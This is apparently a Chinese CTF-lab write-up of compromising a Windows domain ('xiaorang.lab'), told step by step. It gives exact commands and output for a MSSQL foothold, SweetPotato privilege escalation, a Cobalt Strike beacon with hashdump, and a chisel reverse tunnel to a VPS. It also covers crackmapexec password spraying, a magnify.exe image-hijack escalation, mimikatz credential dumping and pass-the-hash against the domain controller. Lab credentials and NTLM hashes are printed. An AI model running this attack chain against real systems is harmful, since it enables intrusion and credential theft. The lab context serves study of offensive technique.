

<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->

访问发现是Windows主机，但并没有什么有用的信息


fscan开扫，发现m ssql数据库用户名和密码，MDUT拿到Shell。


执行whoami查看用户，发现是sqlserver，权限较低。


尝试利用Sweetpotato进行提权。


命令执行 C:/Users/Public/SweetPotato.exe -a "whoami"


发现可以正常执行，上传cs马，执行cs马

```
C:/Users/Public/SweetPotato.exe -a "C:/Users/Public/beacon_x64.exe"
```


cs成功上线


执行命令，得到flag1

```
shell type C:\Users\Administrator\flag\flag01.txt
```


```
hashdump
```

```
[03/08 16:09:01] beacon> hashdump
[03/08 16:09:01] [*] Tasked beacon to dump hashes
[03/08 16:09:59] [+] host called home, sent: 82541 bytes
[03/08 16:10:01] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
cxcx:1013:aad3b435b51404eeaad3b435b51404ee:72d98c440b25ce7b05d81233044c020c:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::
```

查看网络连接等

```
shell netstat -ano
```


看到3389端口指向`172.22.8.31`另一个主机
查看在线用户

```
shell quser || qwinst
```


发现john用户，可以cs注入进程进行上线。



成功上线John


查看共享资源，列出目录文件

```
shell net use
shell dir \\tsclient\c
```


读取文件，拿到账号密码，并提醒映像劫持

```
shell type \\tsclient\c\credential.txt
```

```
03/08 16:20:22] beacon> shell type \\tsclient\c\credential.txt
[03/08 16:20:23] [*] Tasked beacon to run: type \\tsclient\c\credential.txt
[03/08 16:21:11] [+] host called home, sent: 63 bytes
[03/08 16:21:11] [+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

上传`chisel.exe`和`fscan`，扫描内网并进行内网穿透
先进行fscan扫描内网

```
shell C:\\Users\\Public\\t1ng\\fscan.exe -h 172.22.8.0/24
```

```
[03/08 16:32:37] beacon> shell C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
[03/08 16:32:38] [*] Tasked beacon to run: C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
[03/08 16:33:15] [+] host called home, sent: 82 bytes
[03/08 16:33:25] [+] received output:

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.31:139 open
172.22.8.15:88 open
172.22.8.46:135 open
172.22.8.31:135 open
172.22.8.18:139 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetBios 172.22.8.15     [+] DC:XIAORANG\DC01           
[*] NetInfo 
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:3430:be2:d89c:72b2
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] NetInfo 
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo 
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql 172.22.8.18:1433:sa 1qaz!QAZ
```

`chisel`内网穿透

```
靶机
shell C:\\Users\\Public\\chisel.exe client vps_ip:9002 R:0.0.0.0:9003:socks

vps
./chisel server -p 9002 --reverse
```

利用cme进行密码喷射

```
proxychains4 -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```


发现可以登录`172.22.8.46`主机，但是会显示密码过期，使用`smbpasswd`修改密码
[Lex-Case/Impacket: Impacket is a collection of Python classes for working with network protocols.](https://github.com/Lex-Case/Impacket/tree/master)

```
proxychains4 -q python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.46 -newpass 'QWERqwer1234'
```


RDP远程桌面连接

```
proxychains4 rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'QWERqwer1234' -r disk:share=/home/kali/Desktop/tmp
```


映像劫持，利用放大镜提权
[映像劫持的几种利用方式 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/321211.html)

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```


开始，锁定


点击放大镜


成功提权，读flag02

```
type C:\User\Administrator\flag\flag02.txt
```


尝试查看主机是否出网，


 上传`mimikatz`，同样位置执行

 ```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
 ```

拿到用户名和NTML哈希，哈希传递


拿PTH打DC

```
proxychains4 crackmapexec smb 172.22.8.15 -u WIN2016$ -H b5a0472a0c4933f0d50b7c499d267e0f -d xiaorang -x "type C:\Users\Administrator\flag\flag03.txt"
```


